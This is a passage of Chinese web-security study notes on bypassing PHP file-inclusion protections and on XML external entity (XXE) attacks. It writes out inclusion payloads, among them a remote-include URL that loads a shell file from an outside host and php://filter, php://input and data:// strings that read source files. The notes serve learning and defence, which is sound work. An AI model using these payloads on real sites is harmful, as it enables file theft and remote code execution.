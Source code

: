 #### 2. 特殊字符绕过
- 某些情况下, 读文件支持使用Shell通配符, 如`?` `*`等
- url中使用 `?` `#` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

#### 3. %00截断ji'hu
几乎是最常用的方法, 条件是magic_quotes_gpc 打开, 而且php版本小于5.3.4。

#### 4. 长度截断
Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 `#define MAX_PATH 260`，其中第260个字符为字符串结尾的 `\0` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096 获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，`././././` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

#### 5. 伪协议绕过
- 远程包含: 要求 `allow_url_fopen=On` 且 `allow_url_include=On` ， `payload为 ?file=[http|https|ftp]://websec.wordpress.com/shell.txt` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 `allow_url_include=On `，payload为 `?file=php://input` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 `?file=php://filter/convert.base64-encode/resource=index.php` 的形式
- data: 使用data伪协议读取文件，payload为 `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo= `的形式，要求 `allow_url_include=On`

#### 6. 协议绕过
`allow_url_fopen` 和 `allow_url_include` 主要是针对 `http` `ftp` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。

## 10. XEE
### 1. XML基础
XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。 XML 的语法规范由 DTD （Document Type Definition）来进行控制。

### 2. 基本语法
XML 文档在开头有 `<?xml version="1.0" encoding="UTF-8" standalone="yes"?>` 的结构，这种结构被称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，但是必须放在文档开头。

除了可选的开头外，XML 语法主要有以下的特性：

- 所有 XML 元素都须有关闭标签
- XML 标签对大小写敏感
- XML 必须正确地嵌套
- XML 文档必须有根元素
- XML 的属性值需要加引号

另外，XML也有CDATA语法，用于处理有多个字符需要转义的情况。

### 3. XXE
当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。
